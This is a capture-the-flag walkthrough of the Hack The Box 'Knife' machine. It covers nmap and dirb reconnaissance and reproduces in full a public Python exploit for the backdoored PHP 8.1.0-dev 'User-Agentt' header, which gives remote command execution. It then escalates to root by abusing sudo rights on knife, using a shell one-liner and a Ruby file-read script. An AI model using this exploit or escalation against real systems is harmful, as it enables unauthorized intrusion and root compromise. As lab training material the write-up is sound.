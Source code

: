 ![image](https://user-images.githubusercontent.com/105310322/187503628-bc497651-e7cf-4967-bb53-a7f33613718d.png)

### Tools: Nmap, 

Running nmap we can see that port 80 and 22 are open. Lets run a dirb and check out the webpage while it runs.

```console
─[us-dedivip-1]─[10.10.14.93]─[htb-0xrogue@pwnbox-base]─[~]
└──╼ [★]$ nmap -sC -A -Pn 10.129.82.115
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-08 20:55 BST
Nmap scan report for 10.129.82.115
Host is up (0.0043s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.97 seconds
─[us-dedivip-1]─[10.10.14.93]─[htb-0xrogue@pwnbox-base]─[~]
└──╼ [★]$ dirb http://10.129.82.115

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Aug  8 20:57:51 2022
URL_BASE: http://10.129.82.115/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.82.115/ ----
+ http://10.129.82.115/index.php (CODE:200|SIZE:5815)                          
+ http://10.129.82.115/server-status (CODE:403|SIZE:278)                       
                                                                               
-----------------
END_TIME: Mon Aug  8 20:58:08 2022
DOWNLOADED: 4612 - FOUND: 2
```
Navigating to the webpage we can see that there is nothing interesting but running a curl command shows that its "X-Powered-By" php 8.1.0.

```console
└──╼ [★]$ curl -I 10.129.82.115
HTTP/1.1 200 OK
Date: Mon, 08 Aug 2022 20:17:49 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```
A quick google search gives us an axploit we can run to get a shell on the host.

```python
# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#    - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# References:
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Now running the script gives us a shell!

```console
└──╼ [★]$ python3 php.py 
Enter the full host url:
http://10.129.82.115

Interactive shell is opened on http://10.129.82.115 
Can't acces tty; job crontol turned off.
$ pwd
/

$ whoami
james
```

I had trouble navigating with the limited shell but was able to locate the user flag.

```console
$ pwd
/

$ ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var

$ ls home
james

$ ls home/james
user.txt

$ cat home/james/user.txt
a90760febfd2ef7c9091d21c9278a563
```

Now to priviledge escalate and grab the root flag. Its always smart to run sudo -l to see what the logged in user can use

```console
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Knife is the vulnerable sudo permission that we can exploit. Coincidence!? I think not!
unfortunately with this being an unstable shell I was unable to get root priviledges with this exploit from GTFO bins so we shall use another...

```console
$ sudo knife exec -E 'exec "/bin/sh"'
No input file specified.
```
Since knife can execute ruby scripts, we will make a quick script to read the root flag with sudo permissions.

```console
$ echo "data = File.read(\"/root/root.txt\")\r\nputs data" > ~/flag.rb

$ sudo knife exec ~/flag.rb
42aba59bd6f8d5ab6d7ab1e9c83945bb
```

Voila we have both flags!!

Pretty simple box. I had a little trouble after the GTFO bins didn't work on the knife command, but a little digging showed that it can run ruby scripts so then my next challenge became creating a ruby script to read the flag.
